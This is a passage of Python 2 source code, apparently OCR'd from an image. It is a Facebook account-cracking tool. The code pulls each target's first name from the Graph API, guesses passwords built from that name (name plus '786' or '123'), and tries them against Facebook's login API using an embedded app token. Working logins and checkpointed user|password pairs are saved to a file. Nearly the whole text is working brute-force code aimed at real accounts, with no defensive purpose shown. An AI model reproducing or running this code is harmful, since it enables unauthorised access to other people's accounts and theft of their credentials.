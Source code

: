 		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = b['first_name'] + '786'

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass1 + ' 👽 ' + b['name']

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;36;40m[After1Day] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass1 + ' 👽 ' + b['name']

					cek = open("out/CP.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = b['first_name'] + '123'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \033[1;97m | \033[1;97m ' + pass2 + ' 👽 ' + b['name']

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass2 + ' 👽 ' + b['name']

							cek = open("out/CP.txt", "a")

							cek.write(user+"|"+pass2+"\n")
